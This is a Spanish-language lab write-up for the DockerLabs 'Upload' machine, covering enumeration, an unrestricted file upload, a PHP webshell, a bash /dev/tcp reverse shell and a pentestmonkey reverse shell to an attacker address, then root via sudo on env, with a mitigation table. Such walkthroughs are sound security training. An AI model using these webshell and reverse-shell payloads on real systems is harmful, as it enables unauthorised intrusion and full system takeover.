





# Upload — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Panel vulnerable de subida de archivos, donde se puede subir código malicioso y conseguir una ejecución remota de comandos en el servidor.

## Attack chain: 

**Nmap → Web Enumeration → Gobuster → Unrestricted File Upload → PHP Remote Code Execution → Reverse Shell → www-data Access → Sudo Misconfiguration → Root**


### 1. Analisis y escaneo del objetivo.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/upload]
└─$ nmap -sC -sV 172.17.0.2                                                
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-08 18:35 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Upload here your file
MAC Address: BE:18:53:F5:EE:AC (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.21 seconds

```
Se encuentra unicamente el servidor apache, ingresamos a la IP para verificar que encontramos. 



Vemos que hay una en la cual permite subir archivos, la cual exploraremos mas adelante.


## 2. Fuzzing WEB 

Realizamos un fuzzing web para buscar directorios o archivos ocultos. 

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/upload]
└─$ gobuster dir  -u http://172.17.0.2/  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,htm,txt,bak,old,zip,conf,config,log 

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,htm,old,conf,php,txt,bak,zip,config,log
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
upload.php           (Status: 200) [Size: 1357]
index.html           (Status: 200) [Size: 1361]
server-status        (Status: 403) [Size: 275]
index.html           (Status: 200) [Size: 1361]
Progress: 685091 / 685091 (100.00%)
===============================================================
Finished
===============================================================
                                                                      
```
Se verifica que podemos ingresar desde el navegador a `http://172.17.0.2/uploads/`



Procedemos a subir un archivo para obtener acceso.


## 3. Remote Code Execution y escalada de privilegios.

Antes de continuar con la explotacion subimos un archivo de prueba con el fin de verificar el comportamiento, ya que nos permite verificar el mismo se sube sin modificar el nombre y es visible desde `http://172.17.0.2/uploads/` el cual tambien nos permite acceder al archivo el cual tampoco es modificado. Gracias a esto nos permite subir un archivo malisioso con una ruta la cual ya preconocemos la cual sienta la base para ejecutar webshell en PHP. 



Subimos el archivo para proceder con la conexion y escalada de privilegios.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/upload]
└─$ cat shell.php 
<?php system($_GET['cmd']); ?>
```
Una vez subido el archivo `shell.php`, ingresamos lo siguiente desde el navegador `http://172.17.0.2/uploads/shell.php?cmd=id` y confirmamos que el servidor ejecuta la shell correctamente.



Nos ponemos en escucha desde netcat para recibir la conexion 

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/upload]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

```
Y ejecutamos el payload para la conexion de la revershell ya que nos encontramos en escucha con netcat 

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/upload]
└─$ curl -G "http://172.17.0.2/uploads/shell.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"


```
Volvemos a netcat y vemos que obtenemos el acceso.

```text
                                                                                                                                                     
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/upload]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 58164
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@41568aff8c9b:/var/www/html/uploads$ whoami
whoami
www-data
www-data@41568aff8c9b:/var/www/html/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@41568aff8c9b:/var/www/html/uploads$ 

```
Escalamos privilegios.

```text

www-data@41568aff8c9b:/var/www/html/uploads$ sudo -l
sudo -l
Matching Defaults entries for www-data on 41568aff8c9b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 41568aff8c9b:
    (root) NOPASSWD: /usr/bin/env
www-data@41568aff8c9b:/var/www/html/uploads$ sudo /usr/bin/env /bin/bash
sudo /usr/bin/env /bin/bash
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)

```

## 3.1 Revershell alternativo.

También es posible lograr el mismo resultado subiendo el script completo de 
[php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  de pentestmonkey, que no requiere parámetros adicionales en la URL. Solo es  necesario modificar las variables `$ip` y `$port` al inicio del archivo antes de subirlo:

Modificamos segun datos

```php
$ip = '172.17.0.1';
$port = 4444;
```

Realizamos mismo procedimiento que antes, nos ponemos en escucha con netcat en el puerto `4444`


```php
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
```
Ingresamos la url del archivo desde el navegador web y obtenemos la conexion por netcat y escalamos privilegios de igual forma que antes.




```text

└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 34468
Linux 41568aff8c9b 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.1.5-1kali1 (2026-07-29) x86_64 x86_64 x86_64 GNU/Linux
 22:17:02 up 14:46,  0 users,  load average: 0.20, 0.36, 0.45
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ sudo -l
Matching Defaults entries for www-data on 41568aff8c9b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 41568aff8c9b:
    (root) NOPASSWD: /usr/bin/env
$ sudo /usr/bin/env /bin/bash
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)

```

# Conclusión

A partir del escaneo inicial con **Nmap** fue posible identificar los servicios expuestos en la máquina, encontrando un servidor **Apache** en el puerto `80`, que constituía el principal punto de entrada al sistema.

Posteriormente, se realizó una enumeración del servidor web mediante **Gobuster**, utilizando una lista de palabras de **SecLists** para descubrir directorios y archivos accesibles. Durante este proceso se identificó el directorio `/uploads/`, además del archivo `upload.php`, encargado de gestionar la subida de archivos.

Al inspeccionar el directorio `/uploads/`, se comprobó que los archivos subidos conservaban su nombre original y quedaban accesibles directamente desde el navegador. Esta característica permitió identificar una posible vulnerabilidad en el mecanismo de subida de archivos, ya que no se aplicaban controles efectivos que impidieran la ejecución de código PHP.

Para comprobar esta vulnerabilidad, se creó y subió una **webshell en PHP** que permitía ejecutar comandos del sistema operativo mediante el parámetro `cmd`. Al acceder al archivo desde el navegador y ejecutar el comando `id`, se confirmó que el servidor interpretaba el código PHP y permitía la ejecución remota de comandos (**RCE**).

Una vez confirmada la vulnerabilidad, se utilizó **Netcat** para establecer una conexión inversa (*Reverse Shell*) desde la máquina objetivo hacia la máquina atacante. De esta manera, se obtuvo acceso interactivo al sistema con los privilegios del usuario `www-data`, correspondiente al servicio web.

Con el acceso inicial establecido, se procedió a enumerar los permisos disponibles mediante el comando `sudo -l`. El resultado reveló que el usuario `www-data` podía ejecutar `/usr/bin/env` como `root` sin necesidad de proporcionar una contraseña, debido a una configuración permisiva de sudo.

Aprovechando esta mala configuración, se ejecutó `sudo /usr/bin/env /bin/bash`, obteniendo una shell con privilegios de **root**. Finalmente, mediante los comandos `whoami` e `id`, se confirmó la escalada de privilegios y el control administrativo completo de la máquina.

Como método alternativo, también se comprobó que era posible utilizar un script PHP de reverse shell para obtener una conexión remota, alcanzando el mismo acceso inicial como `www-data` y aprovechando posteriormente la misma configuración de sudo para escalar privilegios.

En conclusión, la máquina **Upload** demuestra cómo una validación insuficiente de archivos subidos puede permitir la ejecución remota de código y cómo una configuración incorrecta de sudo puede convertir un acceso inicial limitado en un compromiso completo del sistema.

| Vulnerabilidad / Mala configuración | Impacto | Mitigación |
|---|---|---|
| **Subida de archivos sin validación adecuada** | Permite subir archivos PHP maliciosos. | Validar el contenido y las extensiones permitidas. |
| **Ejecución de PHP en `/uploads/`** | Permite ejecutar comandos remotamente y obtener acceso como `www-data`. | Deshabilitar la ejecución de scripts en directorios de subida. |
| **Directorio de subidas accesible públicamente** | Facilita localizar y ejecutar archivos subidos. | Restringir el acceso y almacenar los archivos fuera del directorio web público. |
| **Permiso sudo sobre `/usr/bin/env`** | Permite obtener una shell como `root` sin contraseña. | Eliminar permisos sudo innecesarios y aplicar el principio de mínimo privilegio. |

## Recomendaciones generales

- Validar los archivos subidos y evitar la ejecución de código en directorios públicos.
- Almacenar los archivos fuera del directorio web cuando sea posible.
- Evitar ejecutar comandos del sistema con parámetros controlados por el usuario.
- Revisar los permisos de `sudo` y restringir los privilegios de las cuentas de servicio.
- Mantener actualizados los componentes del servidor y realizar auditorías de seguridad periódicas.


